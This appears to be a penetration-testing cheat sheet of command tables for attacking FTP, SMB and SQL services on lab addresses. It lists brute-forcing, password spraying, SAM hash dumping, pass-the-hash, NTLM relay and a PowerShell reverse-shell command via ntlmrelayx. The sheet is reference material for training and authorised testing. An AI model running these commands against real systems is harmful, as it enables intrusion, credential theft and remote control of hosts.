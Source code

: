 ### Attacking FTP

|   |   |
|---|---|
|**Command**|**Description**|
|`ftp 192.168.2.142`|Connecting to the FTP server using the `ftp` client.|
|`nc -v 192.168.2.142 21`|Connecting to the FTP server using `netcat`.|
|`hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142`|Brute-forcing the FTP service.|

---

### Attacking SMB

|                                                                                                                 |                                                                       |
| --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| **Command**                                                                                                     | **Description**                                                       |
| `smbclient -N -L //10.129.14.128`                                                                               | Null-session testing against the SMB service.                         |
| `smbmap -H 10.129.14.128 -u guest`                                                                              | Network share enumeration using `smbmap`.                             |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Recursive network share enumeration using `smbmap`.                   |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Download a specific file from the shared folder.                      |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Upload a specific file to the shared folder.                          |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Null-session with the `rpcclient`.                                    |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Automated enumeratition of the SMB service using `enum4linux-ng`.     |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Password spraying against different users from a list.                |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Connect to the SMB service using the `impacket-psexec`.               |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Execute a command over the SMB service using `crackmapexec`.          |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumerating Logged-on users.                                          |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extract hashes from the SAM database.                                 |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Use the Pass-The-Hash technique to authenticate on the target host.   |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Dump the SAM database using `impacket-ntlmrelayx`.                    |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |

---

### Attacking SQL Databases

|   |   |
|---|---|
|**Command**|**Description**|
|`mysql -u julio -pPassword123 -h 10.129.20.13`|Connecting to the MySQL server.|
|`sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30`|Connecting to the MSSQL server.|
|`sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux.|
|`sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h`|Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server.|
|`mysql> SHOW DATABASES;`|Show all available databases in MySQL.|
|`mysql> USE htbusers;`|Select a specific database in MySQL.|